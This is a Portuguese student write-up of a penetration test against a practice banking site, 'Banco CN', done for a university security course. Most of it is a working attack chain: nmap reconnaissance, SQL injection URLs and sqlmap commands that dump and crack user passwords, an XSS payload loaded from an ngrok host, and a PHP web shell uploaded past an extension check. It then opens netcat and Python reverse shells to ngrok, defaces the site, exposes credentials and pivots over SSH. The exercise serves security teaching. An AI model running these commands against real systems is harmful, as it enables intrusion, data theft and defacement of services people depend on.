 # Relatório do Ataque ao Banco CN

Esse é um relatório de um ataque ao Banco CN, que foi feito para a disciplina de Segurança da Informação, do curso de Ciência da Computação da Universidade Federal de Lavras.
O ataque foi feito em um ambiente controlado, com o objetivo de simular um ataque real, e assim, poder aprender mais sobre segurança da informação.

## Informações:

Email: <contato@bancocn.com>
Tel: +835 66 7070, se nao der certo 70 de novo
<emprestimos@bancocn.com>

<www.bancocn.com/admin>

### Uso de whois para descobrir mais ips

### ip da cloudFlare - waf00f - ve se tem firewall

bancocn.com has address 172.67.192.199
bancocn.com has address 104.21.52.8

### subdomínios

shop.bancocn.com.
172.18.100.7

www.bancocn.com.
172.67.192.199

www.bancocn.com.
104.21.52.8

### usando sudo nmap

PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
8443/tcp open  https-alt

### usando o sudo -O nmap para pegar o sistema operacional

Device type: bridge|general purpose|switch
Running (JUST GUESSING): Oracle VirtualBox (98%), QEMU (93%), Bay Networks embedded (88%)

### serviços totais

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Cloudflare http proxy
|_http-title: Did not follow redirect to http://www.bancocn.com/
|_http-server-header: cloudflare
443/tcp  open  ssl/https     cloudflare
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: cloudflare
8080/tcp open  http          Cloudflare http proxy
|_http-title: Did not follow redirect to http://www.bancocn.com/
|_http-server-header: cloudflare
8443/tcp open  ssl/https-alt cloudflare
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: cloudflare
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: bridge|general purpose|switch
Running (JUST GUESSING): Oracle Virtualbox (98%), QEMU (93%), Bay Networks embedded (88%)
OS CPE: cpe:/o:oracle:virtualbox cpe:/a:qemu:qemu cpe:/h:baynetworks:baystack_450
Aggressive OS guesses: Oracle Virtualbox (98%), QEMU user mode network gateway (93%), Bay Networks BayStack 450 switch (software version 3.1.0.22) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

### Information Disclorsure

Apache/2.4.29 (Ubuntu) Server at www.bancocn.com Port 80

### Directory: http://www.bancocn.com/assets

## SQL injection

* Vendo o nome do banco de dados
www.bancocn.com/cat.php?id=-1 union select 1,2,database()

* Vendo os usuários
www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(login) from users

retorna: admin

* Verificando as senhas
www.bancocn.com/cat.php?id=-1 union select 1,2,group_concat(password) from users

retorna:
7b71be0e85318117d2e514ce2a2e222c
(hash da senha - não consegue descriptografar, apenas com ataque bruto)

Por meio do hash killer
Senha é: senhafoda

Para automatizar, a gente pode usar o comando sqlmap

sqlmap -u "http://bancocn.com/cat.php?id=1" 

sqlmap -r header.txt -D bancocn -tables

sqlmap -r header.txt -D bancocn -T users --collumns

sqlmap -r header.txt -D bancocn -T users -C login, password --dump

sqlmap -r header.txt --dump-all

## Ataque XXS

python3 -m http.server
Mas  é melhor usar o site ngrok

Depois colocamos na url:
www.bancocn.com/cat.php?id=2'<script src="https://d97d-45-229-123-11.ngrok-free.app/script.js"></script>

## Fazendo upload de shell
Utilizando variaveis de extensão para passar pela verificação, exemplos:
.php7
.php5
.html.php
.jpg.php

http://www.bancocn.com/admin/uploads/shell.php7?cmd=ls

## Agora vamos conectar o servidor com a nossa maquina

### Usando o netcat para ouvir a porta

Começamos com o comando:
nc -lvp 789 // no servidor do atacante

### Usando o ngrok para fazer o tunelamento

./ngrok tcp 789

url: 0.tcp.sa.ngrok.io
porta: 14328

Depois no url:
www.bancocn.com/admin/uploads/shell.php7?cmd=nc [URL] [PORTA] -e /bin/bash
www.bancocn.com/admin/uploads/shell.php7?cmd=nc 0.tcp.sa.ngrok.io 16280 -e /bin/bash

### Fazendo Reverse Python

www.bancocn.com/admin/uploads/shell.php7?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.sa.ngrok.io",14328));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

Fazer de forma interativa:

python -c "import pty;pty.spawn('/bin/bash')" // usando o terminal

### Modificando o site

cd /var/www/html

cat index.php // ve o código do site

echo "Lucas Henrique" > index.php

### Pegando o banco de dados

cat /var/www/html/admin/uploads/bancocn.sql

### Hashes

utiliza o comando:

john hash.txt

# Credenciais

Acesso do administrador:
admin
senhafoda

/var/backups/creds.txt

Encontro de mais um acesso:
bob
123456

# Aumentando privilégios

## Verificando os pins, para tentar achar alguma máquina para escalar privilégio

for i in {1...254}; do (ping -c 1 10.20.20.$i&); done

## Busca de portas

nc -w 1 -zv 10.20.20.3 1-500

## Acessando o usuário

ssh bob@10.20.20.3

usa a senha: 123456
